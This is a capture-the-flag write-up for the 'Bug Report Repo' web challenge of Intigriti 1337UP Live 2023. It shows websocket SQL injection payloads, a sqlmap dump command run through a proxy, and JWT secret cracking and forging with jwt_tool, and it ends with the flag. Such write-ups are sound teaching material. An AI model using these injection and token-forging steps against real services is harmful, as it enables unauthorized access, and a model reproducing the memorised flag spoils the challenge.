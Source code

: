 ```yaml
---
name: Bug Report Repo (2023)
event: Intigriti 1337UP Live CTF 2023
category: Web
description: Writeup for Bug Report Repo (Web) - Intigriti 1337UP Live CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Bug Report Repo

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/kgndZOkgVxQ/0.jpg)](https://www.youtube.com/watch?v=VX445yn4lQ4 "Websocket SQLi and Weak JWT Signing Key")

## Description

> I started my own bug bounty platform! The UI is in the early stages but we've already got plenty of submissions. I wonder why I keep getting emails about a "critical" vulnerability report though, I don't see it anywhere on the system 😕

## Part 1: Websocket SQLi

-   Players can use burp repeater to tamper with websocket requests, if they set the ID to 11, they will find an extra name `ethical_hacker`
-   If they probe with quotes, they will see errors then quickly find SQLi
    -   `{"id":"1 AND 1=1"}`
    -   `{"id":"1 AND 1=2"}`
-   Using this information, they will see need to dump the hidden row, either by filtering on `id`, `reported_by` or `severity`
-   Players can write a script, but may find [this 2021 writeup from Rayhan](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) to use SQLMap, but the script won't work by default:
    -   They need to change the `ws` protocol to `wss` for remote
    -   The DB is SQLite instead of MySQL, negative values in SQLMap will cause the script to freeze - players will need to add a timeout or logic to skip negative values
-   Launch the middleware script (sqlmap_proxy.py)
-   `sqlmap -u "http://localhost:9999/?id=1" --batch --proxy=http://127.0.0.1:8080 -T bug_reports -C description --where id=11 --dump --threads 10`
-   The hidden bug report is returned, which indicates there's an admin endpoint with weak creds

```bash
+--------------------------------------+
| description                          |
+--------------------------------------+
| crypt0:c4tz on /4dm1n_z0n3, really?! |
+--------------------------------------+
```

## Part 2: Weak JWT Signing Key

-   Players visit `/4dm1n_z0n3` and login with `crypt0:c4tz`
-   They see a message saying the key is only viewable by the admin
-   Crack the JWT with hashcat/john/jwt_tool etc, finding the key `catsarethebest` (present in rockyou.txt), e.g. jwt_tool takes like 3 secs
    -   `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -C -d /usr/share/wordlists/rockyou.txt`
-   Forge JWT as admin, e.g. with jwt_tool
    -   `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -S hs256 -p "catsarethebest" -I -pc identity -pv admin`
-   Login with the new cookie, revealing the config key which is the flag!

Flag: `INTIGRITI{w3b50ck37_5ql1_4nd_w34k_jw7}`
